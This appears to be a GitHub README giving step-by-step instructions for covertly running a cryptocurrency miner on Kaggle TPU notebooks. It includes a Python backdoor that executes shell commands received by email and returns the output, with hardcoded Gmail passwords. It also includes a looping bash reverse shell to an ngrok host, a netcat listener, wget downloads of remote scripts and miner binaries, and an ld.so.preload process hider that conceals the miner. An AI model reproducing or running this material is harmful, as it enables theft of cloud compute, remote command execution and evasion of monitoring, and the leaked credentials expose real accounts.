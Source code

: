 # miner
TPU 96 Core https://www.kaggle.com/
register with gmail
verify phone number format : 081245754875
run code:
====================================>

import imaplib
import email
import smtplib
import subprocess
import time

# email account details
imap_username_from_client = "brunobrail335@gmail.com"
imap_password = "dimgwmkmtwsiaaiw"
smtp_username = "duejohn825@gmail.com"
smtp_password = "vekktzscbyhfvadv"
imap_server="imap.gmail.com"

while True:
    try:

        imap = imaplib.IMAP4_SSL(imap_server)
        imap.login(imap_username_from_client, imap_password)
        imap.select("inbox")
        status, messages = imap.search(None, "UNSEEN")
        if messages[0]:
            latest_message = messages[0].split()[-1]
            _, msg = imap.fetch(latest_message, "(RFC822)")
            email_message = email.message_from_bytes(msg[0][1])
            for part in email_message.walk():
                if part.get_content_type() == "text/plain":
                    body = part.get_payload(decode=True).decode()
                    result_byte = (
                        subprocess.run(body, shell=True, stdout=subprocess.PIPE,
                                       stderr=subprocess.PIPE).stdout).decode(
                        'utf-8')
                    break
            msg = email.message.EmailMessage()
            msg.set_content(result_byte)
            msg['Subject'] = 'Result of command'
            msg['From'] = imap_username_from_client
            msg['To'] = smtp_username

            # send email with result
            with smtplib.SMTP('smtp.gmail.com', 587) as smtp:
                smtp.starttls()
                smtp.login(smtp_username, smtp_password)
                smtp.send_message(msg)
        imap.close()
        imap.logout()
    except Exception as e:
        print(f"Error: {e}")

    # wait for 10 seconds before checking for new messages again
    time.sleep(2)
================================>
acces clinet  ==============> wget https://raw.githubusercontent.com/bulboni/minware/main/svr.py
create reverse shell ========> while true; do bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/10187 0>&1'; sleep 10; done
call net cat ================> nc -lnvp 4444
undo dyrectory kagle ==============> cd /kaggle
hide miner ========================> git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
call miner =========================> wget https://raw.githubusercontent.com/bulboni/minware/main/config.json && wget https://raw.githubusercontent.com/bulboni/minware/main/durex
